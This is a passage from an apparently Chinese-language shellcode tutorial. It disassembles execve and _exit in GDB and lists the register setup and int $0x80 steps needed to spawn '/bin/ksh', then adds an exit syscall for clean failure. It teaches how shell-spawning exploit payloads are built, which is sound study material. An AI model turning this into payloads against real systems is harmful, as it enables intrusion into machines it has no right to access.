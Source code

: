                                          # 软件中断，转入kernel模式
0x804b9c4 <__execve+20>:        popl   %ebx
                                         # 恢复ebx
0x804b9c5 <__execve+21>:        cmpl   $0xfffff001,%eax
0x804b9ca <__execve+26>:        jae    0x804bcb0 <__syscall_error>
                                         # 判断返回值，报告可能的系统调用错误
0x804b9d0 <__execve+32>:        ret      # execve() 调用返回
                                         # 该指令会用压在堆栈中的返回地址

从上面的分析可以看出，完成 execve() 系统调用，我们所要做的不过是这么几项而已：

    a) 在内存中有以NULL结尾的字符串"/bin/ksh"
    b) 在内存中有"/bin/ksh"的地址，其后是一个 unsigned long 型的NULL值
    c) 将0xb拷贝到寄存器EAX中
    d) 将"/bin/ksh"的地址拷贝到寄存器EBX中
    e) 将"/bin/ksh"地址的地址拷贝到寄存器ECX中
    f) 将 NULL 拷贝到寄存器EDX中
    g) 执行中断指令int $0x80

如果execve()调用失败的话，程序将继续从堆栈中获取指令并执行，而此时堆栈中的数据
是随机的，通常这个程序会core dump。我们希望如果execve调用失败的话，程序可以正
常退出，因此我们必须在execve调用后增加一个exit系统调用。它的C语言程序如下：

6. vi shellcode_exit.c

#include 
int main ()
{
    exit( 0 );
}

7. gcc -o shellcode_exit -static shellcode_exit.c

8. gdb shellcode_exit

[scz@ /home/scz/src]> gdb shellcode_exit
GNU gdb 4.17.0.11 with Linux support
This GDB was configured as "i386-redhat-linux"...
(gdb) disas _exit <-- -- -- 输入
Dump of assembler code for function _exit:
0x804b970 <_exit>:      movl   %ebx,%edx
0x804b972 <_exit+2>:    movl   0x4(%esp,1),%ebx
0x804b976 <_exit+6>:    movl   $0x1,%eax
0x804b97b <_exit+11>:   int    $0x80
0x804b97d <_exit+13>:   movl   %edx,%ebx
0x804b97f <_exit+15>:   cmpl   $0xfffff001,%eax
0x804b984 <_exit+20>:   jae    0x804bc60 <__syscall_error>
End of assembler dump.
